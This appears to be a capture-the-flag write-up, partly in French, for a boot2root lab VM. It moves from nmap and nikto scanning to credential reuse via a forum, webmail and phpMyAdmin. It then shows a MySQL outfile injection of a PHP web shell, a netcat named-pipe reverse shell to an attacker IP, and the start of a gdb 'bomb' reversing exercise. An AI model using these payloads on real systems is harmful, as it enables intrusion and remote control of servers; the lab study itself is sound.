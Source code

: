 installer kalilinux
sudo apt-get install gobuster

scanner le réseau avec nmap
cmd : nmap -sP 192.168.0-255.0/24

get the ip of the virtual machine

nmap the ip of the machine (there are on ports) port 80 et 443 open -> web server
cmd : nmap --top-ports 1000 -T4 -sC http://example.com
	OR
open armitage and scan within the range of the virtual machine

Go to the ip of the virtual machine on internet or curl it. There is a page.

nikto -h + adress ou dirb sur l'ip de la machine en http et https
cmd: nikto -h https://ip_machine
OR
cmd: dirb https://ip_machine

phpmyadmin + forum + mail

User login try !q\]Ej?*5K5cy*AJ in forum 6
(maybe password misstype?)
And right after that lmezard logged in, maybe it was a mistake from his part ..

user: lmezard
pwd: !q\]Ej?*5K5cy*AJ

Try to send mail to admin when you're logged in
your mail is : laurie@borntosec.net

We still have the webmail we didn't use, we try to logged on it with the mail adress and
the same pwd we still have.
Connecting to mail at webmail works.

In the mail we have the logged for phpmyadmin.
Connecting to db via the mail from the admin
user: root
pwd: Fg-'kKXBj87E:aJ$

If we go here ip_machine/icons/README, we see that the server is running on apache, by default the directory is /var/www

We need this command
INSERT INTO `mlf2_entries_cache`(`cache_id`, `cache_text`) VALUES (12,LOAD_FILE("/var/www/forum/index.php"))

If we look at the code we have directory, we can try to put in some file with that mysql command

select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/abs_path/test.php"

the good dir is /var/www/forum/templates_c/test.php (who is the compile dir in index.php)

reverse shell on that website without -e
https://www.nicolashug.com/pentest-et-securite/netcat-reverse-shell-e
launch on kali : nc -nvlp 1234
cmd in the php exploit : mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc MY_IP 1234 1>/tmp/backpipe

directory /home/LOOKATME
there is something on the password
user: lmezard
pwd: G!@M6f4Eatau{sF"

got a file called fun
need to parse it
I try to send it into a html in the dir i have the right and parse it.. But i was wrong
The file is actually a .tar
So i open a ssh port on the kali machine and connect it via lmezard account to copy it with scp and then untar it (tar -xzf fun)
We have the position of each file with //fileXX
I unrar it but there is still parsing to do. I have to get a "\n" at the end of each to escape the //file of the previous file so that the next line isn't escape. It works !
I have a message who tell me to ssh a pass.. let's do it

The result is used to login with user laurie in ssh
user: laurie
pwd: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

We see the bomb with a file readme
Bomb is compiled, we use hexray (ida64)
We see that the first_phase is a strcmp with "Public speaking is very easy."
We type it -> victory
We can see the adress with gdb if we disas phase_1 and p/s (for the character) and the adress of the register

we need to disas phase_2,
got this line :
	0x08048b56 <+14>:	lea    -0x18(%ebp),%eax
   	0x08048b59 <+17>:	push   %eax
   	0x08048b5a <+18>:	push   %edx
	0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
	- So we push the adress of %ebp in read_six_numbers

	0x08048b63 <+27>:	cmpl   $0x1,-0x18(%ebp)
  	0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
 	0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
 	- Here if the first number of ebp isn't 1 we don't jump and we explode

